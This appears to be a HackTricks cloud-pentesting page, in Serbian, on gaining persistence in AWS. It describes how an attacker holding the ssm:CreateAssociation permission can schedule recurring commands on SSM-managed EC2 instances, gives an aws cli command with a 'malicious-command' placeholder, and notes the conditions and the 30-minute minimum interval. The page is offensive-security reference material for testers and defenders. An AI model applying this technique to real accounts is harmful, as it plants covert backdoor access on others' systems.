 # AWS - SSM Perssitence

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

Za više informacija pogledajte:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Using ssm:CreateAssociation for persistence

Napadač sa dozvolom **`ssm:CreateAssociation`** može kreirati State Manager Association koja automatski izvršava komande na EC2 instancama kojima upravlja SSM. Ove associations mogu se konfigurisati da se pokreću u fiksnim intervalima, što ih čini pogodnim za backdoor-like persistence bez interaktivnih sesija.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Ovaj metod perzistencije radi sve dok je EC2 instanca upravljana od strane Systems Manager, SSM agent radi, i napadač ima dozvolu za kreiranje associations. Ne zahteva interaktivne sesije niti eksplicitne `ssm:SendCommand` dozvole. **Važno:** Parametar `--schedule-expression` (npr. `rate(30 minutes)`) mora poštovati minimalni interval AWS-a od 30 minuta. Za neposredno ili jednokratno izvršenje, potpuno izostavite `--schedule-expression` — association će se izvršiti jednom nakon kreiranja.

{{#include ../../../../banners/hacktricks-training.md}}
